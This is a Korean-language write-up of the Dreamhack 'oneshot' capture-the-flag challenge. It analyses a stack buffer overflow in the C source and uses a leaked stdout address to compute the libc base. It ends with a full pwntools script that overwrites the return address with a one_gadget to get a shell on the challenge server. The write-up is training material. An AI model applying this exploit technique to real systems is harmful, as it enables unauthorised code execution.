 oneshot 라이트업
===========


## 보호 기법 확인

<img width="1030" height="190" alt="image" src="https://github.com/user-attachments/assets/41a99385-5565-421c-826a-1e18271e4745" />


## 코드 분석

```c
#include <stdio.h>
#include <stdlib.h>
#include <signal.h>
#include <unistd.h>

void alarm_handler() {
    puts("TIME OUT");
    exit(-1);
}

void initialize() {
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[]) {
    char msg[16];
    size_t check = 0;

    initialize();

    printf("stdout: %p\n", stdout);

    printf("MSG: ");
    read(0, msg, 46);

    if(check > 0) {
        exit(0);
    }

    printf("MSG: %s\n", msg);
    memset(msg, 0, sizeof(msg));
    return 0;
}
```

* libc에 존재하는 stdout의 주소를 알려주기 때문에 libc base 를 구할 수 있을 것이다.
* read 함수는 **46바이트** 만을 읽어올 수 있으며, 버퍼 안에 원하는 값을 작성하는 것 또한 불가능하다.


<img width="822" height="372" alt="image" src="https://github.com/user-attachments/assets/527dc1d3-abf5-4049-b798-7008a78ecce8" />

46바이트가 몇 바이트의 버퍼 오버플로우를 일으키는지 확인해보면, msg = [rbp-0x20]이기 때문에 버퍼 뒤로 46 - 0x20 = 14 바이트를 덮을 수 있다.    
즉 **sfp의 8바이트와 하위 6바이트만을 덮을 수 있다.**

ret의 6바이트밖에 덮을 수 없고, 다른 영역에 작성하기도 어려워 rop을 이용하는 것은 어렵다.  
따라서 one_gadget을 이용해야 한다.


## 익스플로잇

### libc base 계산

<img width="997" height="136" alt="image" src="https://github.com/user-attachments/assets/5a21f990-2155-483a-a32b-879130171b7a" />

<img width="887" height="137" alt="image" src="https://github.com/user-attachments/assets/bb34293b-da2d-4df6-9b90-de4c34b32595" />

stdout이 가리키는 값은 libc의 _IO_2_1_stdout_ 심볼임을 알 수 있다.   

### one_gadget

<img width="1143" height="383" alt="image" src="https://github.com/user-attachments/assets/671d2bae-7fc4-40ac-b01e-3670aec3f324" />

libc에 존재하는 one_gadget들을 확인한다.

여기서 사용할 one_gadget들은 `og = [0x45216, 0x4526a, 0xf02a4, 0xf1147]`


## 익스플로잇 코드 


```python
from pwn import *

p = remote("host8.dreamhack.games", 22056)
e = ELF("./oneshot")
libc = ELF("libc.so.6")

p.recvuntil(b"stdout: ")
stdout = int(p.recvline(), 16)

libc_base = stdout - libc.symbols["_IO_2_1_stdout_"]
og = [0x45216, 0x4526a, 0xf02a4, 0xf1147]
og = og[0] + libc_base

print(hex(libc_base))

payload = b"\x00" * 0x20
payload += b"A" * 8
payload += p64(og)[:8]

p.sendafter(b"MSG: ", payload)
p.recvline()

p.interactive()
```




<img width="1175" height="469" alt="image" src="https://github.com/user-attachments/assets/cb40f952-044f-4ec0-9017-c0b8d5775c26" />
